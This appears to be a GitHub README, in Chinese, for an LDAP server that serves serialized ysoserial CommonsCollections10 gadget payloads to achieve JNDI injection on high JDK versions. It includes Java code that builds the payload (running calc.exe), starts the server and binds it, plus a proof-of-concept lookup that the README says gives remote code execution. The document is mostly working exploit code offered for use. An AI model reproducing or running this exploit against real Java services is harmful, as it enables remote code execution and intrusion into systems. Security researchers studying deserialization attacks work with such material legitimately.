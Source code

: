 # LDAP Server

**直接存储 serialization 数据，用于 jdk 高版本的 jndi 注入**

运行 Main ，实现 ldap server 的启动，和 exp 的 bind ：

```java
import runnable.BindEXP;
import runnable.RunLDAPServer;
import ysoserial.payloads.CommonsCollections10;

public class Main {
    public static void main(String[] args) throws Exception {
        Object o = new CommonsCollections10().getObject("calc.exe");
        RunLDAPServer.runLDAPServer();
        BindEXP.bindEXP(o);
    }
}
```

## poc

运行之后 lookup `ldap://0.0.0.0:9999/cn=exp,dc=ldap,dc=fuck` 就能 rce ：

```java
import javax.naming.directory.DirContext;
import javax.naming.directory.InitialDirContext;

public class Poc {
    public static void main(String[] args) throws Exception{
        String url = "ldap://127.0.0.1:9999/cn=exp,dc=ldap,dc=fuck";
        DirContext ctx = new InitialDirContext();
        ctx.lookup(url);
    }
}

```













